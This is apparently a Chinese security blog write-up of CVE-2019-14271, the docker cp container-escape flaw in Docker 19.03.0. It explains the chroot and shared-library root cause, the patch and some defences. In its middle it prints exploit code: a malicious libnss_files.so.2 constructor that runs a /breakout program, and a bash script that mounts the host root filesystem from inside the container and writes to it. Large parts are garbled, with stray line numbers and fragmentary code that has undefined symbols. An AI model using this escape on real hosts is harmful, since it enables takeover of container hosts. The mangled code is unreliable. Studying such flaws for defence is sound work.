




一、前言 CVE-2019-14271是一个通过宿主机docker cp容器文件导致任意命令执行的漏洞，目前已知的影响版本只有docker 19.03.0(包含几个beta版)，19.03.1以上以及18.09以下都不收影响。漏洞起源于docker开源项目issue上docker19.03.0版本docker cp产生的报错:
response from daemon: error processing tar file: docker-tar: relocation error: symbol __libc_readline_unlocked, version GLIBC_PRIVATE not defined in file [libc.so](http://libc.so/).6 with link time reference : exit status 127``` 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 这边给出docker源码issue链接地址：https://github.com/moby/moby/issues/39449 CVE官方也放出漏洞细节：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14271 贴一下漏洞发现者的博客：https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/ 目前国内对CVE-2019-14271漏洞所做的分析基本都是来自漏洞发现者博客的文章翻译，缺少具体复现细节。 这边做一下漏洞分析和复现。 ## 二、漏洞介绍 根据作者博客披露信息显示，此漏洞7月份就已经被发现，但是由于描述不清晰和没有公开利用代码，导致此漏洞并没有产生太大关注，但是，这仍是docker平台的一个严重漏洞。 docker cp命令可以允许用户将文件在宿主机、容器之间来回复制，这个过程涉及到一个重要进程docker-tar，docker-tar的作用是切到容器中(chroot)，将请求复制的文件打包，然后传回给docker守护进程(dockerd)并由其提取打包后的文件到宿主机上。  这边涉及到一个chroot的动作，执行此动作主要是为了docker-tar切入容器内部对复制文件进行打包，如果不chroot，很有可能会造成符号链接攻击https://blog.csdn.net/weixin_34414650/article/details/91427942，导致宿主机cp的容器的符号链接指向自身，这有可能导致容器恶意构造符号链接来读写宿主机文件，所以新版的docker选择利用docker-tar chroot进容器系统进行复制，这样复制时就难以出现符号链接问题了。但是，19.03.0版本由于不严谨的chroot导致docker容器出了一个严重问题，docker-tar进程依赖linux主机上的动态库文件，而动态链接库在不调用其中相关函数的时候是不进行链接的，这边docker-tar未进行链接就先chroot进容器内部，之后寻找路径过程中才会用到相关函数并进行动态链接，而这时docker-tar进程已经切进容器内部了，这边就导致宿主机的进程会使用容器内部的so库。一旦此容器是恶意的(so库被提前更改)或者docker容器被入侵(攻击者替换so库)，很容易导致宿主机被代码执行。 ## 三、漏洞分析  漏洞起源于github上docker开源项目的一个issue，issue显示19.03.0在docker cp复制容器内部文件到宿主机时会产生错误，错误内容如下：  报错内容大意是docker-tar进程在tar文件时出现一个符号重定向报错，libnss_files.so.2中引用的符号在libc.so.6中并没有定义。出现这个问题主要就是上面分析的chroot后再去动态链接结果链接的是容器的so库，而libc.so docker的其它进程之前已经引用过了，所以映射进内存的libc库其实是宿主机的libc。docker-tar进程在引用libnss中函数的时候由于与宿主机的libc库版本不匹配导致libnss库无法寻址，函数调用失败，docker-cp也就报错。 知道原理后这边尝试下利用： docker cp的逻辑漏洞导致宿主机进程会使用容器的so库，而容器的so库我们目前是可控的，我们可以编译一个恶意so库对原生的镜像库进行替换，使宿主进程调用恶意so库过程中执行攻击者定义的危险代码。这边我们寻找到libnss_files.so.2的源码，在其中加入链接时启动代码(run_at_link)，并定义执行函数，之后对其进行编译，将新生成的libnss_files.so.2送往容器中触发恶意指令。 这边选取的是nss路径下的files-init.c源文件，编译完成后可以放入ida中进行查看，发现确实已将恶意代码加入。  贴一下漏洞利用代码：
#define ORIGINAL_LIBNSS “/original_libnss_files.so.2”
bool is_priviliged();
attribute ((constructor)) void run_at_link(void)
rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
fprintf(log_fp, "switched back to the original libnss_file.so");
if (!fork())
{
// Child runs breakout
argv_break[0] = strdup("/breakout");
argv_break[1] = NULL;
execve("/breakout", argv_break, NULL);
}
else
wait(NULL); // Wait for child
return;}
1 2 3 4 5 6 7 8 ![] (./docker3.png) 这边对exploit 代码进行解释： 首先考虑到除了docker-tar 以外很可能有其它容器内部进程调用libnss_file .so .2 这个so 库，为了防止多次run_at_link 造成错误，这边选择先对函数是否的确在docker-tar 进程上下文中，如果在，则运行run_at_link 函数，否则，退出run_at_link ，这边是通过 ```fopen ("/proc/self/exe" , "r" );
这段代码进行判断的，/proc/self/exe指向进程所在的可执行文件，如果是容器内的正常进程调用libnss_file.so.2，则/proc/self/exe一定存在，则fopen后非null，退出run_at_link，反之如果是docker-tar，则/proc/self/exe对应的可执行文件是运行在宿主机所在的命名空间中，这边fopen肯定为null，继续run_at_link后续。
其次，如果确定是在docker-tar进程中，则将恶意so库替换为正常so库，防止在后续利用过程中多次调用run_at_link函数造成错误。
最后，这边并没有直接将命令执行代码放入函数中，而是选择执行一个breakout的bash程序，其内容可自定义。

编译完成后放入vuln_docker中任意docker cp到宿主机，发现宿主机被命令执行。
贴一下breakout的代码：
1 2 3 4 5 6 7 8 9 10 #!/bin/bash umount /host_fs && rm -rf /host_fs mkdir /host_fs mount -t proc none /proc cd /proc/1/root mount --bind . /host_fs echo "Hello from within the container!" > /host_fs/evil
四、漏洞复现 贴一下漏洞复现成功的图：

五、补丁修复 
根据补丁显示，19.03.1在archive.go包中添加了一个init函数，主要使用了user模块的Lookup/LookupHost函数负责解析用户名/主机名。

而user模块的这两个方法底层其实调用了linux的libnss_files.so.2中的接口，这样的话libnss_files.so.2就会被提前加载进内存了。
六、防御手段 1、尽量不要以root身份运行容器，因为libnss_files.so.2这个库是只能root用户替换的，如果以非root身份运行，攻击者就算攻入容器也无法利用
2、尽量不要运行陌生的容器，很有可能是被恶意魔改过的
3、关注安全新闻，对有漏洞曝出的docker版本进行更新
七、未来应用场景&挖掘思路 总的来说这个漏洞其实更偏向逻辑漏洞，像docker这种已经大众化的软件代码上的缺陷其实已经很少了，更多的偏向逻辑、设计，而要挖掘逻辑、设计漏洞肯定要先知道其是如何设计的，也就是熟悉docker源码。
就攻击面来说，我们知道docker不同容器共享宿主机资源其实涉及一个叫命名空间的东西，其类似一个规则，将宿主机和各容器之间进行隔离，但却又共享资源互不影响。完全不影响吗，也不是，我们要做的就是要找到宿主机和容器之间有交互的部分进行攻击、逃逸，就像这个docker cp命令使用到的docker-tar进程一样，这往往是一个攻击面。